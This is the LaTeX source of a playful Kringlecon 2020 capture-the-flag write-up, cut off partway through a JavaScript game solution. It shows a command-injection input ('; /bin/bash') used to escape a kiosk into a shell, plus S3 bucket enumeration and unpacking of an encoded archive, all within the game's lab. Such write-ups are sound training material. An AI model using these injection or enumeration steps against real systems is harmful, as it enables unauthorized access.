
\documentclass[12pt]{report}
\usepackage[a4paper]{geometry}
\usepackage[myheadings]{fullpage}
\usepackage{fancyhdr}
\usepackage{lastpage}
\usepackage{graphicx, wrapfig, subcaption, setspace, booktabs}
\usepackage{fourier}
\usepackage[protrusion=true, expansion=true]{microtype}
\usepackage[english]{babel}
\usepackage{sectsty}
\usepackage{url, lipsum}
\usepackage{tgbonum}
\usepackage[colorlinks = true,
            linkcolor = blue,
            urlcolor  = blue,
            citecolor = blue,
            anchorcolor = blue]{hyperref}
\usepackage[table]{xcolor}
\usepackage{listings}
\usepackage{color}
\usepackage[default]{lato}
\usepackage[T1]{fontenc}
\usepackage{titlesec}
\usepackage{multirow}
\usepackage{minted}
\usepackage{sidecap}




\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{dkgreen}{rgb}{0,.6,0}
\definecolor{dkblue}{rgb}{0,0,.6}
\definecolor{dkyellow}{cmyk}{0,0,.8,.3}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}

\graphicspath{ {imgs/} }


\lstset {
	breaklines=true,
	upquote=true
}

\lstdefinestyle{PHP}{
	language = php,
	backgroundcolor=\color{backcolour},
	basicstyle = \small\ttfamily,
	numbers=left,
	numbersep=5pt,
	numberstyle=\tiny\color{mygray},
	tabsize = 2,
	upquote=true,
	keywordstyle = \color{dkblue},
	stringstyle = \color{red},
	identifierstyle = \color{dkgreen},
	commentstyle = \color{gray},
	emph = [1]{php},
	emphstyle = [1]\color{black},
	emph = [2]{if,and,or,else},
	emphstyle = [2]\color{dkyellow},
	showspaces=false,
	showstringspaces=false
}

\onehalfspacing
\setcounter{tocdepth}{5}
\setcounter{secnumdepth}{5}

% set chapter format
\titleformat{\chapter}[block]
{\normalfont\huge\lato}{\thechapter}{1em}{\Huge}
\titlespacing*{\chapter}{0pt}{-19pt}{0pt}

% remove red boxes
\hypersetup{%
	pdfborder = {0 0 0}
}

% change the link style you can use
\newcommand{\link}[1]{{\color{blue}\href{#1}{#1}}}

%-------------------------------------------------------------------------------
% HEADER & FOOTER
%-------------------------------------------------------------------------------
\pagestyle{fancy}
\setlength\headheight{15pt}
\fancyhead[L]{Whoville Pentesting Boutique}
\fancyhead[R]{Grinch \& Cindy Lou Who}

%-------------------------------------------------------------------------------
% TITLE PAGE
%-------------------------------------------------------------------------------
\title{Kringlecon 2020 Report}
\author{Whoville Pentesting Boutique}

\makeatletter
\renewcommand{\maketitle}{
	\begin{titlepage}
		\begin{center}
			\large
			\vspace*{1cm}
			{\LARGE\@title}
			\par\vspace{1ex}
			\begin{tabular}[t]{c}
				by \@author
			\end{tabular}
			\vfill
			\par\vspace{1ex}
			December 2020
		\end{center}
		\@thanks
	\end{titlepage}
}
\makeatother

\begin{document}
		\maketitle

		\pagenumbering{gobble}
		\tableofcontents
		\newpage

		\pagenumbering{arabic}
		\chapter{Introduction}

\section{Background}

Each year, Santa Claus hosts a security conference (\href{https://kringlecon.com/}{Kringlecon}) in various locations around North Pole.
As part of the employee benefits in Whoville Pentest Boutique \footnote{Registered with Better Bugs Bureau.},
Grinch and Cindy Lou attended.

Following a really long day attending various talks and talking with vendors,
Grinch and Cindy Lou headed back to their hotel. The only available hotel was
Serverland Security Hotel \footnote{Not to be confused with SSH.}. Although it was getting late,
the discussions drifted away from talks

- Grinch, I don't know if you noticed, Santa seemed a bit off.

- Yeah, I didn't want to bring this up because, you know, of my past.
Not only he seemed a bit off, he was always repeating the same stuff. If I didn't
know any better, I'd consider him rude.

- I have a strange feeling but I think we should investigate further. Let's get to bed and start fresh tomorrow.

- Sounds like a plan.


\subsection{Note of the Whoville Pentest Boutique Board}
Due to COVID, employees of Whoville Pentest Boutique are not allowed to attend any conferences.
Additionally, we praise ourselves on keeping everything open. The report and all tools/solutions are also hosted \href{https://github.com/frite/kringlecon-2020}{here}.
Also, Grinch it came to my attention that since the lockdown, you were watching your screen, mumbling about boring series on Netflux. For the last time, those are teleconferences.

		\newpage

		\chapter{Objective 1}

\section{Introduction}

During our visit {\color{codegreen}Jingle Ringford} (located in the Staging area),
gave us our first objective. Find out what's written in Santa's list. He also gave us two hints on how to achieve this.
Although this is indeed achievable with \href{https://www.photopea.com}{Photopea}, Grinch had lying around a copy of
\href{https://www.gimp.org}{GIMP}.

\subsection{Solution}
First, we need to grab the image.
\begin{minted}{bash}
$ wget https://kringlecon.com/textures/billboard.png
\end{minted}

Although the filter you are looking for in Photopea is indeed called (Filters/Distort/Twirl), in GIMP it is called
\textit{Whirl and Pinch}. For GIMP, adjusting the Pinch also helps.

\subsection{Answer}
The answer is Proxmark.

- Grinch, stop reading the narrative over and over, let's head up on the castle.
- Uh yeah, you are right Cindy Lou.

		\newpage

    \chapter{Objective 2}

\section{Introduction}

{\color{codegreen}Jewel Loggings} (located in the Castle Approach area), greeted our heroes. He mentioned that helping elves gives hints
and also to pick up various objects lying around.

- Why do we need to bother ourselves picking random trash?

- It may not be trash, we may need it to help Santa.

- Yeah, I just finished reading all of Marie Kondo's books and rearranged my condo.

- Grinch, I was begging you for months to clean up your desk drawers and you wouldn't do it. Don't play me the Kondo card now.
You can manage for a few hours.

- Fair enough Cindy Lou, fair enough. Anyway, we need to find some solution regarding those buckets.
\newline
{\color{codegreen}Shinny Uppatree} (located in the Castle Approach area) was there hanging by a terminal, waiting for someone to save the day.
The elf asked us to take a look at \textit{Kringle Kiosk}. He has reason to believe that there is some sort of command injection bug there.

Cindy Lou, colloquially known as "walking zero-day machine" decided to take a look.

\subsection{Kringle Kiosk}
This is a challenge that requires us to escape to \textit{/bin/bash}.
If we select option 4, we are greeted by \href{https://en.wikipedia.org/wiki/Cowsay}{Cowsay}
\begin{figure}[h!]
  
\includegraphics[scale=0.5]{kk-cow}
  \caption{Printscreen of Kringle Kiosk challenge}
\end{figure}

\newpage
Cindy Lou assumed that the code running in the background looked like:

\begin{minted}{bash}
$ cowsay $USER_INPUT
\end{minted}

Escaping can happen in many ways but Cindy decided to try the following:
\begin{minted}{bash}
  $ ; /bin/bash
\end{minted}

which worked.
\newpage
\begin{figure}[h!]
  
\includegraphics[scale=0.5]{kk-cow-escape}
  \caption{Printscreen of Kringle Kiosk escape.}
\end{figure}

{\color{codegreen}Shinny Uppatree} excited that the flaw was found, asked if we could take a look at finding a bucket and identifying the \textit{package}.
He mentioned briefly that he believes that the package is reversible. When opening the challenge, we are also hinted about \textit{Wrapper3000} which is the latest and greatest
tool in obfuscation.

Cindy went ahead and typed quickly. She was fairly familiar with S3 buckets, having identified multiple issues in the past. She enriched her wordlist based on the discussion with the elves.
\begin{minted}{bash}
elf@d26fd59a0911:~$ cd bucket_finder/
elf@d26fd59a0911:~/bucket_finder$ ls
README  bucket_finder.rb  wordlist
elf@d26fd59a0911:~/bucket_finder$ echo Wrapper3000 >> wordlist
elf@d26fd59a0911:~/bucket_finder$ echo wrapper3000 >> wordlist
elf@d26fd59a0911:~/bucket_finder$ ruby bucket_finder.rb wordlist
http://s3.amazonaws.com/kringlecastle
Bucket found but access denied: kringlecastle
http://s3.amazonaws.com/wrapper
Bucket found but access denied: wrapper
http://s3.amazonaws.com/santa
Bucket santa redirects to: santa.s3.amazonaws.com
http://santa.s3.amazonaws.com/
      Bucket found but access denied: santa
http://s3.amazonaws.com/Wrapper3000
Bucket does not exist: Wrapper3000
http://s3.amazonaws.com/wrapper3000
Bucket Found: wrapper3000 ( http://s3.amazonaws.com/wrapper3000 )
      <Public> http://s3.amazonaws.com/wrapper3000/package
elf@d26fd59a0911:~/bucket_finder$
\end{minted}

Sure enough, the \textit{wrapper3000} was the right bucket.
If we use the \textit{-d} option of the given tool it will download the files for us.
Cindy Lou's approach was to identify the contents and act accordingly.
\begin{minted}{bash}
738f5b259f0:~/$ file package
package: ASCII text, with very long lines
elf@obj2:~/$ cat package
UEsDBAoAAAAAAIAwhFEbRT8anw <snip> AAAAA # This looks like base64
elf@obj2:~/$ cat package | base64 -d # Let's try to decode it as B64 which works.
PK
<snip> package.txt.Z.xz.xxd.tar.bz2UT  <snip> _ux
elf@obj2:~/$ cat package | base64 -d > package.txt.Z.xz.xxd.tar.bz2UT
elf@obj2:~/$ ls
package  package.txt.Z.xz.xxd.tar.bz2UT
elf@obj2:~/$ file package.txt.Z.xz.xxd.tar.bz2UT # Identify package
package.txt.Z.xz.xxd.tar.bz2UT: Zip archive data, at least v1.0 to extract
elf@obj2:~/$ unzip package.txt.Z.xz.xxd.tar.bz2UT # Unzip
Archive:  package.txt.Z.xz.xxd.tar.bz2UT
  extracting: package.txt.Z.xz.xxd.tar.bz2
elf@obj2:~/$ file package.txt.Z.xz.xxd.tar.bz2 # Identify contents
package.txt.Z.xz.xxd.tar.bz2: bzip2 compressed data, block size = 900k
elf@obj2:~/$ bunzip2 package.txt.Z.xz.xxd.tar.bz2
elf@obj2:~/$ ls
package  package.txt.Z.xz.xxd.tar  package.txt.Z.xz.xxd.tar.bz2UT
elf@obj2:~/$ file package.txt.Z.xz.xxd.tar # Identify contents
package.txt.Z.xz.xxd.tar: POSIX tar archive
elf@obj2:~/$ tar xvf package.txt.Z.xz.xxd.tar
package.txt.Z.xz.xxd
elf@obj2:~/$ file package.txt.Z.xz.xxd # ASCII
package.txt.Z.xz.xxd: ASCII text
elf@obj2:~/$ cat package.txt.Z.xz.xxd # Inspect contents
<snip>
elf@obj2:~/$ xxd -r package.txt.Z.xz.xxd > package.txt.Z.xz
elf@obj2:~/$ xz -d package.txt.Z.xz # All extensions match, hit it
elf@obj2:~/$ file package.txt.Z
package.txt.Z: compress'd data 16 bits
elf@obj2:~/$ compress -d package.txt.Z
elf@obj2:~/$ cat package.txt
North Pole: The Frostiest Place on Earth # Answer
elf@obj2:~/$
\end{minted}

\subsection {On a more serious note}
\textit{Narrator's voice}. Although in my opinion AWS has great advantages, many companies "fail" to properly secure their assets (whether data or simply workloads).
AWS offers a wide variety of tools and IAM permissions that can be as fine-grained as you like. In my opinion, the more work and thought one puts in designing his cloud environment, the more pleasant it will be eventually.
From my experience, companies that have spent time designing AWS and generally building some sort of governance have serious benefits that extend security.
Infrastructure and Operations benefit, finance department is happy, developers get their little sandboxes of sorts to build stuff etc.

\subsection{Good 'ole tmux}
{\color{codegreen}Pepper Minstix} (located in the Castle Entrance), greeted our heroes. He needs to find his bird.
He must have detached his tmux \footnote{Tmux is a great tool and it's definitely worth the time to learn it and put in your daily routine.} session.
\begin{minted}{bash}
elf@8195fbf38e5d:~$ tmux list-sessions
0: 1 windows (created Sat Dec 26 20:04:55 2020) [80x24]
elf@8195fbf38e5d:~$ tmux attach-session -t 0
\end{minted}

He must have Ctrl+B-D.

\begin{figure}[h!]
  
\includegraphics[scale=0.5]{tmux-solved}
  \caption{Printscreen of Tmux solution.}
\end{figure}

Based on Pepper's hints, we need to talk to {\color{codegreen}Sparkle Redberry} to get the key for the Santavator and also pick up objects.

Walking towards the castle, we find a \textit{Broken CandyCane}.

    \newpage

    \chapter{Objective 3}

\section{Introduction}

Our two heroes, decided to switch gears. The castle looked unique, Cindy Lou not only was meeting Santa, she got to visit it's Castle.

In the \textit{Entry of Castle}, {\color{codegreen}Piney Shoppington} pulls Grinch to the side and mentions that Santa is acting strange.
Grinch raised an eyebrow but decided to further investigate. Chatting to Santa wasn't of much help. Santa was admiring
a really strange portrait behind him. Maybe it was some sort of medieval tradition to have a huge portrait of yourself and admire it.

Cindy Lou on the other hand decided to talk to {\color{codegreen}Ginger Breddie}, and similar to {\color{codegreen}Piney Shoppington} he mentioned that something looks off in the castle.
Behind him, Cindy Lou found another item, a textit{bolt nut}. {\color{codegreen}Sparkle Redberry} joined the chat and gave her a key of the Santavator. Our heroes were taken by surprise, they didn't expect that some elf would give them proper hints.

Following their little chat, they wandered in the Dining Room. There, there was {\color{codegreen}Ribb Bonbowford} sitting next to a strange token machine. Chatting to {\color{codegreen}Ribb} was mostly JS-related clues.

Grinch pulled Cindy Lou to the side

- Who on their right mind would pay money to play Javascript?

- Stop judging people you old fart and give it a shot. You automate everything in the office.

\subsection{Elf Code}
Grinch stretched his fingers and got typing, it should be easy after all.
\begin{minted}{javascript}
elf.moveLeft(10)
elf.moveUp(10)
\end{minted}

- Cindy Lou, this is level 1. HAHA haven't felt this good since Street Fighter.

\begin{minted}{javascript}
elf.moveLeft(6)
elf.pull_lever(elf.get_lever(0) + 2)
elf.moveLeft(4)
elf.moveUp(10)
\end{minted}

Grinch was already hooked.

\begin{minted}{javascript}
for (i = 0; i < 3; i++)
  elf.moveTo(lollipop[i])
elf.moveUp(1)
\end{minted}

He probably yawned.

\begin{minted}{javascript}
elf.moveLeft(1)
for (i = 0; i < 3; i++) {
  elf.moveUp(12)
  elf.moveLeft(3)
  elf.moveDown(12)
  elf.moveLeft(3)
}
\end{minted}

He craved for more.

\begin{minted}{javascript}
elf.moveTo(munchkin[0])
response = elf.ask_munch(0).filter(numbersOnly);
elf.tell_munch(response)
elf.moveUp(2)

function numbersOnly(value) {
  if (typeof(value) === 'number') {
    return value;
  }
}
\end{minted}

Cindy Lou was getting bored.

\begin{minted}{javascript}
for (i = 0; i < 4; i++)
  elf.moveTo(lollipop[i])
elf.moveTo(lever[0])
response = elf.get_lever(0)
response.unshift("munchkins rule")
elf.pull_lever(response)
elf.moveTo(munchkin[0])
elf.moveUp(2)
\end{minted}

- Grinch, we need to move. You are done here

- ...

\begin{minted}{javascript}
function my_func(arrays) {
  return arrays.flat().filter(function(item) {
    return (parseInt(item) == item);
  }).reduce((a, b) => a + b)
}

function pull(i) {
  elf.pull_lever(i)
}
for (i = 0; i < 2; i++) {
  elf.moveDown(1 + (4 * i))
  pull(i * 4)
